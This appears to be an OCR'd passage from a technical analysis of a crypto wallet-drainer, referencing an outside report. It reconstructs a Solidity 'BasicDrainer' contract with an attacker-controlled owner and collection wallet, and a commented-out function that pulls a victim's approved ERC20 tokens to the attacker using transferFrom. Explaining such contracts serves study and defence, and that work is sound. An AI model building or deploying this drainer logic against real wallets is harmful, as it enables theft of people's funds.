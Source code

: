         contract BasicDrainer {
            address payable public owner; // Attacker's EOA that controls the contract
            address payable public collectionWallet; // Attacker's wallet to receive drained funds

            event FundsDrained(address indexed victim, address indexed token, uint256 amount);
            event NftDrained(address indexed victim, address indexed nftContract, uint256 tokenId);

            constructor(address payable _collectionWallet) {
                owner = payable(msg.sender);
                collectionWallet = _collectionWallet;
            }

            modifier onlyOwner() {
                require(msg.sender == owner, "Not owner");
                _;
            }

            function setCollectionWallet(address payable _newWallet) external onlyOwner {
                collectionWallet = _newWallet;
            }

            // ... (Draining functions below)
        }
        ```
    *   **Functionality:** Establishes the contract on-chain. The `owner` is the attacker's EOA that can call privileged functions (like withdrawing ETH sent to the contract or changing the collection wallet). The `collectionWallet` is where drained assets are sent.
    *   **Report Reference:** The existence of such contracts is a core element of the "Drainer Smart Contract(s)" component in the report.

### 3.2. Function: Draining Approved ERC20 Tokens

*   **Execution Step (Backend Triggered): Attacker's EOA (backend wallet) calls `drainErc20Token`.**
    *   **Logic:** This function is called by the attacker after the victim has approved the `BasicDrainer` contract to spend their ERC20 tokens.
    *   **Code Concept (Report Implication):**
        ```solidity
        // function drainErc20Token(address _tokenAddress, address _victimAddress, uint256 _amount) external onlyOwner {
        //     IERC20 token = IERC20(_tokenAddress);
        //     // Ensure this contract has allowance from victim
        //     // uint256 allowance = token.allowance(_victimAddress, address(this));
        //     // require(allowance >= _amount, "Insufficient allowance"); -- This check is good practice but drainers might skip it and just try, relying on prior off-chain checks.

        //     // Attempt to transfer the tokens from victim to the collection wallet
        //     // The actual amount transferred might be less if victim has less than _amount, or if allowance is less.
        //     // Drainers often try to transfer the full balance they are aware of, up to the allowance.
        //     token.transferFrom(_victimAddress, collectionWallet, _amount);
        //     emit FundsDrained(_victimAddress, _tokenAddress, _amount);
        // }
